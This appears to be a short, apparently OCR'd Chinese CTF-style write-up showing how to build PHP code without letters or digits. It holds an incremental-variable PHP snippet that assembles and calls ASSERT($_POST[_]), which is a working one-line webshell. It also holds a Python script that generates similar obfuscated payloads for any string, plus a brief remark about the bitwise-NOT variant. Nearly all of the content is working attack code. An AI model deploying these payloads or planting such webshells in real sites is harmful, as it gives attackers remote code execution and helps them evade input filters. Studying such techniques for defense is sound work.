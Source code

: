 ```
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;
$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;
$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```

python脚本

```
r = input()
payload ="<?php $_=[].[];$__=0;$__++;$__++;$__++;$_=$_[$__];"   # 弄出来$_='a'
print(payload,end='')

table = {}

for i in range(0, 26):   # 0后面几个_就代表哪个字母
	# table[chr(ord('a')+i)] = "$__=$_;"+"++$__;"*i+"$_0"+"_"*i+"=$__;"
	table[chr(ord('a')+i)] = "$_0"+'_'*i+'=$_++;'
	print(table[chr(ord('a')+i)],end='')
a = ''	
_r = set(r)
for i in _r:
	a += table[i]
# print(a, end='')

b = '?><?='
for i in r:
	b += "$_0"+"_"*(ord(i)-ord('a'))
	b += '.'

b = b[:-1]+';'
print(b,end='')
```

取反，这个要自己一个一个尝试了。

全部脚本
